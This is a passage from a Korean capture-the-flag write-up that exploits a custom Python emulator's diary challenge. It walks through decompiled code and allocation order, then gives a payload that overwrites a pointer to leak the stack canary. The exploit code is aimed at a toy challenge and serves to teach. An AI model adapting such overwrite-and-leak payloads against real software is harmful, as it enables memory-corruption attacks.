 따라서 이 값을 leak해야하는데, 0x59003에 `canary`가 저장된 주소를 쓸 수 있다면 `list`에서 leak이 가능할 것 같았다.
``` c
char *load_diary(int i) {
    int *r10 = 0x59000;
    return *(r10 + i * 3);
}

void list_0x12e() {
    char tmp[3];
    int i = 1;
    int canary;
    ...
        print(load_diary_0x6b4(i));
        print('\n');
    ...
}         
```
문제는 말하자면 전역변수 공간인 `0x59000`보다 앞에 있는 주소에 `diary`를 할당받아야 overwrite가 가능한데, 새로운 메모리를 할당해주는 로직은 다음과 같다.
``` python
    def allocate(self, new_perm, addr=None):
        if addr:
            if not (self.get_perm(addr) & PERM_MAPPED):
                self.set_perm(addr, (PERM_MAPPED | new_perm) & 0b1111)
                return addr
            else:
                return -1

        for page, perm in self.pages.items():
            if not (self.get_perm(page) & PERM_MAPPED):
                self.set_perm(page, (PERM_MAPPED | new_perm) & 0b1111)
                return page
        return -1
```
할당받을 주소를 전달하지 않으면 `for page, perm in self.pages.items()`를 통해서 `pages`를 순회하며 mapping이 되지 않은 공간을 return해준다.

이 때 python 2.7 버전에서는 dictionary를 랜덤한 순서로 순회하므로 `0x59000`보다 낮은 공간이 할당될 때까지 `write`를 하면 된다.

`allocate`에 후킹을 걸어서 할당된 메모리를 출력해본 결과 다행히 두번째만에 `0x59000`보다 낮은 공간이 할당되었다.
``` bash
addr : 0xc4000
new perm : 0b1110
addr : 0x1c000
new perm : 0b1110
```
따라서 할당받은 `0x1c000`의 `key` 주소로부터 `diary_ptr`이 저장되는 `0x59003`까지의 offset을 계산해서 다음과 같이 payload를 작성하면 leak이 가능하다.
``` python
    write(s, b"AAAA", b"aaaa", b"1111")     # 0xc4000
    payload = b"b" * (data_addr - (0x1c000 + 0x4ec))
    payload += p21(1)
    payload += p21(canary_addr)
    write(s, b"BBBB", b"\xff", payload)     # 0x1c000
    
    r = (list(s))
    canary = u21(r.split(b"1)")[1][:3])
    log.info(f"canary : {hex(canary)}")
```
